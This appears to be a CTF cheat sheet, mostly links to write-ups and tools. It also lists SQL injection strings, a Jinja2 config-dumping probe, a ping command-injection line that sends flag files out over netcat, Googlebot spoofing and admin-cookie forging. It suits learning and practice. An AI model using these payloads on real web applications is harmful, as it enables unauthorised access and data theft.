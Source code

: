 # Ch34tsh33t
My CheatSheet


*Always check the Http method needed. Below are the list of HTTP Methods*
-POST
-GET
-PUT
-PATCH
-DELETE

*Using Google as secret-agent*
headers = {
	'User-Agent': 'Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)'
}

*If No Login was provided but Admin login is available*
Try using cookie "admin" set it to "true"

*SQL Injection*
' OR '1'='1' --
' LIKE '%'; --
' UNION SELECT * FROM answers WHERE answer GLOB '<input>*'; --

*Testing for Flask framework (Jinja2)*
{{1+1}} -> {{config.items()}} OR {{config}}


*Exploiting Ping command via WebApp*
8.8.8.8; cat *flag* | nc -lp 54433 -> nc targetip 54433

*Python Code To get http request*

#!/usr/bin/python

import requests
import re

params = {'user': 'test', 'password': 'test', 'submit': 'Sign In'}
jar = {'admin': 'True', 'password': '', 'username': ''}

r = requests.get('{TARGET IP}', data=params, cookies=jar)
source = r.text
print re.findall(r'(flag\{.+\})', source)[0]

*OTHERS*

*Git-Dumper*

*Obfuscate*
http://www.jsnice.org/

*OSINT*
https://github.com/i3visio/writeup-osintctf-2018/blob/master/levels/level_03-Sweden.md
https://github.com/i3visio/writeup-osintctf-2018/blob/master/levels/level_05-Guatemala.md
https://github.com/i3visio/writeup-osintctf-2018/blob/master/levels/level_06-Zambia.md
https://www.digital.security/en/blog/write-defcon-25-recon-village-osint-ctf
https://medium.com/osintblog/recon-village-ctf-overview-fe8787f3ce7f

*Misc*
https://medium.com/bugbountywriteup/meepwn-ctf-quals-2018-writeup-part-1-ab216bbf0b35
https://medium.com/bugbountywriteup/codefest19-ctf-writeups-a8f4e9b45d1

*Forensics*
strings filename | grep flag - HexDump
exiftool image | grep flag - Metadata
zsteg image - least significant bit - http://stylesuxx.github.io/steganography/
file filename
stegsolve 
https://tcode2k16.github.io/blog/posts/picoctf-2019-writeup/forensics/
https://pequalsnp-team.github.io/cheatsheet/steganography-101
https://0xrick.github.io/lists/stego/

*Crypto*
Vignere Cipher - https://www.dcode.fr/vigenere-cipher
ROT13 - https://rot13.com/
John The Ripper
Ceasar Cipher -https://gchq.github.io/CyberChef/#recipe=ROT13(true,true,11)&input=eWpoaXB2ZGRzZGFzcnB0aHBncnhld3RnZHFuanl0dG8
Substitution Solver - https://www.guballa.de/substitution-solver
Ceasar Cipher (No Key) - https://www.mygeocachingprofile.com/codebreaker.vigenerecipher.aspx
Substitution - https://quipqiup.com/
CYBERCHEF

*Bitflip*
https://wannabyte.xyz/2018/10/picoctf-secure-logon/
https://security.stackexchange.com/questions/177614/how-difficult-is-it-to-modify-aes-ciphertext-in-a-meaningful-way

*General Skills*
https://tcode2k16.github.io/blog/posts/picoctf-2019-writeup/general-skills/
https://tcode2k16.github.io/blog/posts/picoctf-2018-writeup/general-skills/
